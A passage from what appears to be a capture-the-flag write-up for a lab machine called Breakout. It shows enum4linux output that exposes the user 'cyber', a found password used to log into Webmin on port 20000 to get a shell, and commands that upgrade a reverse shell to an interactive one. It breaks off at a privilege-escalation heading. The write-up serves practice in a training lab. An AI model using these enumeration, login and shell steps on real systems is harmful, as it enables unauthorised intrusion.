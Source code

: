 ```shell
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

[+] Enumerating users using SID S-1-5-21-1683874020-4104641535-3793993001 and logon username '', password ''

S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

 ===============================( Getting printer info for 172.16.86.149 )===============================

No printers returned.


enum4linux complete on Mon Nov 13 06:25:06 2023
```

And we got a user named `cyber`.

Now, we use the `cyber/.2uqPEfj3D<P'a-3` to try to login webmin, and we can login sucess in 20000 port, and we can get a shell:

![image-20231113194558547](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131945698.png)

### 2. Stabilish Shell

We can get a reverse shell follow the command:

![image-20231113195342116](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131953275.png)

And then, we can stabilish it with the method:

```shell
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
(press CTRL+Z)
stty raw -echo;fg;reset
```

![image-20231113195709791](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311131957963.png)

## 4. Privilege Escalation
